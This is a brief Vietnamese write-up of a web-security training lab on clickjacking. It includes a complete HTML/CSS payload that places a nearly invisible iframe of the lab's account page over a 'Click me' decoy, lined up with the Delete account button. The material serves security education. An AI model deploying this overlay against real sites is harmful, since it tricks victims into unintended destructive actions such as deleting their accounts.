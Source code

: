 # Clickjacking

### **Basic clickjacking with CSRF token protection**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Delete account

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 1;
    }

    div {
        position: absolute;
        top: 500px;
        left: 80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0a00d70443b778c0534710006b0058.web-security-academy.net/my-account"></iframe>
```

![Untitled](writeup_media/Untitled%2019.png)
